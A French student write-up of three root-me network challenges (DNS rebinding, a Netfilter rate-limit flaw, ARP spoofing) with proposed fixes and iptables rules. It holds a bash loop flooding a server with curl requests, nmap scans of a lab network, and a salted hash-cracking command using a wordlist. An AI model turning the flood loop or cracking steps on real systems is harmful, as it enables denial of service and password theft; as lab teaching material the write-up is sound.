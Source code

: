# TP6 : Un peu de root-me

## Sommaire

  - [Sommaire](#sommaire)
  - [I. DNS Rebinding](#i-dns-rebinding)
  - [II. Netfilter erreurs courantes](#ii-netfilter-erreurs-courantes)
  - [III. ARP Spoofing Ecoute active](#iii-arp-spoofing-ecoute-active)
  - [IV. Bonus : Trafic Global System for Mobile communications](#iv-bonus--trafic-global-system-for-mobile-communications)

## I. DNS Rebinding

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/HTTP-DNS-Rebinding)

🌞 **Write-up de l'épreuve**

Le code source contient deux fonctions principales :
- Check
- GET

Check : Cette fonction vérifie si l'adresse IP fournie est une adresse IP publique.

GET : Si la vérification du Check est réussie, cette fonction effectue une requête GET sur l'adresse IP publique saisie.

Pour exploiter cela via un DNS rebinding, il suffit de fournir une chaîne contenant une adresse IP publique valide. Nous allons utiliser l'outil suivant : [**https://lock.cmpxchg8b.com/rebinder.html**](https://lock.cmpxchg8b.com/rebinder.html).

Dans cet outil :

On configure l'entrée A avec une adresse IP publique (qui passera la vérification de la fonction Check).

On configure l'entrée B avec l'adresse de localhost (127.0.0.1).

Cet outil permet d'alterner dynamiquement entre l'adresse IP publique et l'adresse localhost pour les requêtes GET. Grâce à cette alternance, on peut accéder à des ressources limitées au localhost, comme la page /admin.

Exploitation :

On place l'URL générée par l'outil dans le champ requis.

On spamme le bouton graby-grabo?, ce qui finira par révéler le flag lorsque la requête GET sera effectuée sur localhost.
Alternativement, on peut écrire un script Bash utilisant cURL et une boucle for pour automatiser les requêtes jusqu'à obtenir le flag.

🌞 **Proposer une version du code qui n'est pas vulnérable**

- Bloquer le DNS rebinding : Ajouter un check pour être sur que l'adresse IP résolue ne fait pas partie des plages locales ou de 127.0.0.1.

- Limiter les boucles de redirection : Réduire le risque avec des spams de requêtes.

## II. Netfilter erreurs courantes

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/Netfilter-erreurs-courantes)

🌞 **Write-up de l'épreuve**

La ligne problématique dans le script fw.sh est celle-ci :

```bash
IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 20 -j DROP
```

Elle permet de limiter le trafic HTTP en bloquant les requêtes dépassant une certaine cadence, mais ce type de protection est insuffisant pour des attaques de type DoS léger (ou simplement un utilisateur spammant la touche F5)

On peut donc faire un petit script :

```sh
#!/bin/bash


URL="http://challenge01.root-me.org:54017/"  

while :; do
    curl "$URL" &
done
```

🌞 **Proposer un jeu de règles firewall**

Création de la chaîne HTTP_LIMIT :
```bash
iptables -N HTTP_LIMIT
```

Filtrage des connexions TCP sur le port 80 (HTTP) :

```bash
iptables -A INPUT -p tcp --dport 80 -m conntrack --ctstate NEW -j HTTP_LIMIT
```

Limitation des connexions avec un taux de 3 par seconde et une capacité de rafale de 10 :

```bash
iptables -A HTTP_LIMIT -m limit --limit 3/sec --limit-burst 10 -j RETURN
```

Rejet des connexions excessives :

```bash
iptables -A HTTP_LIMIT -j DROP
```

## III. ARP Spoofing Ecoute active

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/ARP-Spoofing-Ecoute-active)

🌞 **Write-up de l'épreuve**

Scan nmap du réseau
```bash
root@fac50de5d760:~# cat scan_result.txt 
# Nmap 7.80 scan initiated Wed Oct 30 10:09:15 2024 as: nmap -sn -PR --min-parallelism 10 -oN scan_result.txt 172.18.0.0/16
Nmap scan report for 172.18.0.1
Host is up (0.000030s latency).
MAC Address: 02:42:BD:45:97:E0 (Unknown)
Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.3)
Host is up (0.000020s latency).
MAC Address: 02:42:AC:12:00:03 (Unknown)
Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
Host is up (0.000033s latency).
MAC Address: 02:42:AC:12:00:04 (Unknown)
Nmap scan report for fac50de5d760 (172.18.0.2)
Host is up.
```

Scan port première machine
```bash
root@fac50de5d760:~# cat scan_result_172_18_0_3.text
# Nmap 7.80 scan initiated Wed Oct 30 10:23:21 2024 as: nmap -sS -p- -oN scan_result_172_18_0_3.text 172.18.0.3
Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.3)
Host is up (0.000023s latency).
All 65535 scanned ports on client.arp-spoofing-dist-2_default (172.18.0.3) are closed
MAC Address: 02:42:AC:12:00:03 (Unknown)

# Nmap done at Wed Oct 30 10:23:24 2024 -- 1 IP address (1 host up) scanned in 3.05 seconds
```

Scan port deuxième machine
```bash
root@fac50de5d760:~# cat scan_result_172_18_0_4.text
# Nmap 7.80 scan initiated Wed Oct 30 10:24:03 2024 as: nmap -sS -p- -oN scan_result_172_18_0_4.text 172.18.0.4
Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
Host is up (0.000019s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 02:42:AC:12:00:04 (Unknown)

# Nmap done at Wed Oct 30 10:24:06 2024 -- 1 IP address (1 host up) scanned in 2.92 seconds
```

capture.pcap
```bash
Flag 1 = tu dois trouver le flag dans les trams
Salt 1 = 3e082f332c43590d
Salt 2 = 6401724a0c3f4a3007644077
Password = a4e04c017bc9326e078959908b9d962ea9119ff8
```

odd-hash
```bash
odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:3e082f332c43590d6401724a0c3f4a3007644077 rockyou.txt a4e04c017bc9326e078959908b9d962ea9119ff8
---
Password 2: et tu trouveras le mot de passe avec cette commande
---
```

Flag complet
```bash
Flag 1:Password 2
```

🌞 **Proposer une configuration pour empêcher votre attaque**

- Mettre à jour la base de donnée mySQL

